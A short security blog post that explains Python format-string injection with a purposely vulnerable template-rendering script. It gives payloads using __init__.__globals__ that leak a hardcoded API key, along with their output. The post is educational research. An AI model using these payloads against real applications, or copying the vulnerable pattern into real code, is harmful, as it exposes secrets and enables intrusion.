 Python format string vulnerabilities
 March 24, 2021  3-minute read
 research • poc
 python • format • string • exploit
Table of contents :
What are Python’s format strings
Example of a vulnerable API
Exploiting format strings
Additional references
What are Python’s format strings
The .format() string method was introduced in Python 3 was later also added to Python 2.7. Let’s see an example :

>>> print("I like {} and {}".format("Python","Pizza"))
"I like Python and Pizza"
Even though python format strings can be very useful in scripts, they should be used with caution as they can be prone to vulnerabilities. We will explore this more in depth in the Exploiting format strings part.

Example of a vulnerable API
Here is an example of an API where a user can render user data to HTML using it’s own template and format strings :

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

config = {
    'API_KEY' : "212817d980b9a03add91e5814d02"
}

class API(object):
    def __init__(self, apikey):
        self.apikey = apikey

    def renderHTML(self, templateHTML, title, text):
        return (templateHTML.format(title=title, text=text))

if __name__ == '__main__':
    a = API(config[API_KEY])

    templateHTML = """<!DOCTYPE html>
<html lang="en" dir="ltr">
    <head>
        <meta charset="utf-8">
        <title>{title}</title>
    </head>
    <body>
        <p>{text}</p>
    </body>
</html>"""

    text = "This is text !"
    print(a.renderHTML(templateHTML, "Vuln web render App", text))
( Download source )

When the user uses this API to render data to HTML with legitimate templates, it would create this :

<html lang="en" dir="ltr">
    <head>
        <meta charset="utf-8">
        <title>Vuln web render App</title>
    </head>
    <body>
        <p>This is text !</p>
    </body>
</html>
But what would happen if a malicious user wants to mess up with the format string placeholders inside the template ? We’ll see this in the next section.

Exploiting format strings
We will try to inject payloads int format string placeholders of the template. I made a simple script taking arguments and executing API’s render function :

Usage :

$ ./sandbox.py
Usage : python3 ./sandbox.py TEMPLATE CONTENT
Source code :

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys

config = {
    'API_KEY' : "212817d980b9a03add91e5814d02"
}

class API(object):
    def __init__(self, apikey):
        self.apikey = apikey

    def renderHTML(self, templateHTML, title, text):
        return (templateHTML.format(self=self, title=title, text=text))


if __name__ == '__main__':
    if len(sys.argv) != 3:
        print("Usage : python3 "+sys.argv[0]+" TEMPLATE CONTENT")
    else :
        a = API(config['API_KEY'])
        print(a.renderHTML(sys.argv[1], "Vuln web render App", sys.argv[2]))
( Download source )

Let’s try this app with a legitimate example :

$ ./test.py "<p>{text}</p>" "Wow such string"
<p>Wow such string</p>
But format string are great in python ! You can access object properties directly in the format string. In the case of a class, this can be really useful to access a specific value in the class. For example the format string {person.username} would retreive the field username of the following “Person” class :

class Person(object):
    def __init__(self, username):
        super(Person, self).__init__()
        self.username = username
In our case, we can exploit this to access other attributes, such as __init__ :

$ ./sandbox.py "<p>{text.__init__}</p>" "Wow such string"
<p><method-wrapper '__init__' of str object at 0x7f8f10a3b9f0></p>
But we can also use this to get the script global context, using __globals__ after __init__ :

$ ./sandbox.py "<p>{self.__init__.__globals__}</p>" "Wow such string"
<p>{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f1385ac5f40>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': './sandbox.py', '__cached__': None, 'sys': <module 'sys' (built-in)>, 'config': {'API_KEY': '212817d980b9a03add91e5814d02'}, 'API': <class '__main__.API'>, 'a': <__main__.API object at 0x7f1385b31490>}</p>
Continuing like this we can access the API_KEY :

$ ./sandbox.py "<p>{self.__init__.__globals__[config][API_KEY]}</p>" "Wow such string"
<p>212817d980b9a03add91e5814d02</p
Additional references
https://docs.python.org/3/library/functions.html#format
Lots of python format string examples : https://pyformat.info/
